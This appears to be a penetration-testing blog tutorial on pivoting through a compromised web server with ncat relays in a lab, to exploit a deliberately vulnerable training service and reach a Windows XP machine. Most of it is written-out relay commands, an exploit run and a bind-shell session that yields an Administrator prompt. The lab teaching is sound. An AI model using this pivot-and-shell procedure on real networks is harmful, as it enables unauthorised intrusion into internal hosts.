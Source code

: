 
In the past two articles, we pivoted our exploit to our target with the help of SSH. If SSH is not available, we can try to use client-to-client and listener-to-listener relays with netcat, as described by Ed Skoudis in [Secrets of America's Top Pen Testers](http://www.inguardians.com/research/docs/Skoudis_pentestsecrets.pdf). We will modify Skoudis' technique by using ncat instead of netcat. Ncat is meant to be a replacement for netcat, and is included in the Nmap 5.x and higher package. I prefer ncat over netcat for this as it allows us to use the same syntax to set up the relays regardless of whether the pivot is running Linux, Windows, or Mac OS X.

<!--more-->

### The scenario

There are two networks, 192.168.81.0/24 and 192.168.63.0/24. Our attacking machine, and a web server that has access to the 192.168.63.0/24 network are located in the 192.168.81.0/24 network. Our target, a Windows XP SP2 machine, is located in the 192.168.63.0/24. Our attacking machine does not have direct access to it, but the web server does.

![](/images/2012-10-16/01.jpg)

We've already compromised the web server and obtained SSH access to it as the user webmaster. Our goal is to use the web server as our pivot and obtain a remote shell on the Windows XP machine.

### The exploit

The Windows XP machine runs a vulnerable service called Server-Strcpy on port 10000. Server-Strcpy is part of the [SecurityTube Exploit Research Megaprimer](http://www.securitytube.net/video/1399) series, and can be downloaded at [http://code.securitytube.net/Server-Strcpy.exe](http://code.securitytube.net/Server-Strcpy.exe). I've written a quick exploit for Server-Strcpy.exe that binds a shell on port 4444, and can be downloaded [here](http://techorganic.com/software/serverstrcpy.py).

### The attack

We need to run ncat on our attacking machine, and on the web server. This means that we need to transfer ncat over to the web server. If your pivot is a Linux machine, you can build a static ncat binary using the following: 

```
# LDFLAGS="-static" ./configure && make ncat_build
```

If the pivot is a Windows machine, you can download a static build of ncat.exe from [http://seclists.org/nmap-dev/2011/q2/1090](http://seclists.org/nmap-dev/2011/q2/1090). Once ncat has been copied over to the pivot, we can begin.

On our attacking machine, we setup a listener-to-listener relay using the following command: 

```
# ncat -lv --broker -m2 10000
Ncat: Version 6.01 ( http://nmap.org/ncat )
Ncat: Listening on :::10000
Ncat: Listening on 0.0.0.0:10000
```

At this point, we'll have port 10000 listening on our machine. On the web server we execute the following command: 

```
$ ncat -v 192.168.81.125 10000 -c "ncat -v 192.168.63.142 10000"
Ncat: Version 5.51 ( http://nmap.org/ncat )
Ncat: Connected to 192.168.81.125:10000.
Ncat: Version 5.51 ( http://nmap.org/ncat )
Ncat: Connected to 192.168.63.142:10000.
```

This tells ncat to connect to our ncat instance listening on port 10000, and then to connect to port 10000 on the target. This completes the setup, and data from our machine will flow through the web server and to the target.

Note that the syntax for executing the client-to-client relay on the pivot is the same, regardless of whether it's a Linux, Windows, or OS X machine. There's nothing else that needs to be done, such as creating a pipe. Compare it to the technique that uses traditional netcat to see the difference.

We can now execute our exploit. Keep in mind that we need to send it to port 10000 on our machine: 

```
# ./exploit.py 127.0.0.1 10000
[+] sending payload of length 1479
[+] done
#
```

With the exploit sent, we can now terminate the ncat relays. Assuming the exploit worked, a bind shell should be listening on 4444 on the target. In order to access it, we once again setup ncat relays, only this time we'll specify port 4444. On our machine we run the following command: 

```
# ncat -lv --broker -m2 4444
Ncat: Version 6.01 ( http://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
```

On the web server, we setup the client-to-client relay: 

```
$ ncat -v 192.168.81.125 4444 -c "ncat -v 192.168.63.142 4444"
Ncat: Version 5.51 ( http://nmap.org/ncat )
Ncat: Connected to 192.168.81.125:4444.
Ncat: Version 5.51 ( http://nmap.org/ncat )
Ncat: Connected to 192.168.63.142:4444.
```

Using netcat (or ncat), we can connect to port 4444 on our machine to get a remote shell on the target: 

```
# nc -v 127.0.0.1 4444
localhost [127.0.0.1] 4444 (?) open
 
 
C:\Documents and Settings\Administrator\Desktop>ipconfig
ipconfig
 
Windows IP Configuration
 
 
Ethernet adapter Local Area Connection:
 
        Connection-specific DNS Suffix  . : localdomain
        IP Address. . . . . . . . . . . . : 192.168.63.142
        Subnet Mask . . . . . . . . . . . : 255.255.255.0
        Default Gateway . . . . . . . . . : 192.168.63.2
 
C:\Documents and Settings\Administrator\Desktop>
```

We've obtained remote shell access to the Windows XP target once more.

Ncat is a great tool and builds enhancements into the old netcat. It's small, available for major operating systems, and easy to use. In part 4 of this serieis, we'll look at Metasploit's pivoting feature. If Metasploit is your exploitation framework of choice, you'll want to learn to use it to pivot your attacks.
